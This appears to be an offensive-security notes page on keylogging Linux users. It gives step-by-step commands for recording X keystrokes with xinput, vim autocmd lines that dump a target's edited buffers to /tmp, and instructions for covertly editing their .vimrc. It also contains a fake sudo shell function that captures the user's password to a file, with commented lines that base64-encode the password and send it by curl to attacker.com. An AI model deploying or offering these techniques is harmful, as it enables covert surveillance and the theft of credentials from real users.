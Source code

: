 # Keylogging

## 01 - `script`

Run a multiplexer terminal program to leave it in the background.

```
$ screen -S keylogger

$ export DISPLAY=:0.0

$ export | grep -i display
```

Exporting the keyboard mapping will show the keybindings that can be translated to actual keystrokes.

```
$ xmodmap -pke > xmodmap-pke.txt

$ head -n20 xmodmap-pke.txt
```

Find the virtual core keyboard to record keystrokes then detach the session to leave it in the background with (`CTRL+D`).

```
$ xinput list

$ script -c "xinput test <X_id>" -a xinput-keylogger.log
```

While it's still running in the background use `xkeyscan` ( a python script is included in the references below) to convert the decimal base 10 values to printable ASCII characters.

```
$ python xkeyscan.py xinput-keylogger.log
```

## 02 - `vim`

### 2.1 - Common File Destinations

```
$HOME/.vimrc
$HOME/.vim/plugin/settings.vim
```

### 2.2 - Vim scripts for logging keystrokes

Normal user

```
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

Under elevated user context when the user is running as `sudo`.

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
:endif
```

### 2.3 - Insert keylogging configuration

Gather timestamps and backup the config resource file. Also try to improvise by instead of getting rid of the rest of the vim config content's. Modify it to ensure it contains no syntax errors. Then wait for the target when he interacts with VIM.

```
$ stat ~/.vimrc
$ cp ~/.vimrc /tmp/.vimrc.bak
$ echo "" > ~/.vimrc
$ cat ~/.vimrc
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

## 03 - `sudo`

```
$ type sudo
sudo is /usr/bin/sudo
```

```bash
function sudo () {
  # A "realsudo" variable is created. It calls the `which` command to locate
  # the path to the real sudo binary. This is used later in the function to
  # execute the target's desired command.
  realsudo="$(which sudo)"

  # The `read` command will prompt (`-p`) the target with a convincing password
  # request. The `-s` argument hides the input password, just as the real
  # sudo command would. The target password is then set in the "inputPasswd"
  # variable.
  read -s -p "[sudo] password for $USER: " inputPasswd

  # There are two `printf` commands here, separated by a semicolon.
  # The first simply prints a new line in the terminal, as the real sudo
  # does. The second writes the target's username and password to a
  # file called "hackedPasswd.txt" in the /tmp directory.
  printf "\n"; printf '%s\n' "$USER : $inputPasswd" >/tmp/hackedPasswd.txt

  # As an alternative to writing the password to the /tmp directory,
  # it can be exfiltrated to the attacker's server. Uncomment the below
  # "encoded" and "curl" lines to enable this function. The password
  # is encoded with `base64` to make it easier to transmit in the URL.
  # encoded=$(printf '%s' "$inputPasswd" | base64) >/dev/null 2>&1
  # curl -s "http://attacker.com/$USER:$encoded" >/dev/null 2>&1

  # The `-S` option allows users to input their sudo password using the command
  # line. This is used to run an arbitrary `exit` command (`-c`) as the root
  # user (`-u`) to unlock the sudo timeout function. This command and its
  # output are hidden (/dev/null) from the target. It's only here to allow
  # sudo usage for future commands.
  # For more on sudo timeouts and /dev/null, see:
  # https://itsfoss.com/change-sudo-password-timeout-ubuntu/
  # https://stackoverflow.com/questions/10508843/what-is-dev-null-21
  $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" >/dev/null 2>&1

  # With the sudo timeout engaged, privileged commands can be run without
  # prompting the user for a password. This line will execute the target's
  # desired command.
  $realsudo "${@:1}"
}

export -f /usr/bin/sudo sudo
```

```
$ type sudo
sudo is a function
..[omitted]..
```

---
## References

- [[Screen]]

- [RedHat: Record your terminal with script and scriptreplay](https://www.redhat.com/sysadmin/record-terminal-script-scriptreplay )

- [xkeyscan](https://github.com/porterhau5/xkeyscan)

- [Natively Keylogging NIX Systems](http://legacy.popped.io/2016/06/natively-keylogging-nix-systems.html)

- [Using xkeyscan to Parse an X-Based Linux Keylogger](https://porterhau5.com/blog/xkeyscan-parse-linux-keylogger/)

- [Null Byte: Steal Ubuntu & MacOS Sudo Passwords Without Any Cracking](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/)

- [Und3rf10w: Tales from the Terminal - Silly Sudo Backdoors](https://und3rf10w.github.io/posts/2022/01/07/sudodoor.html)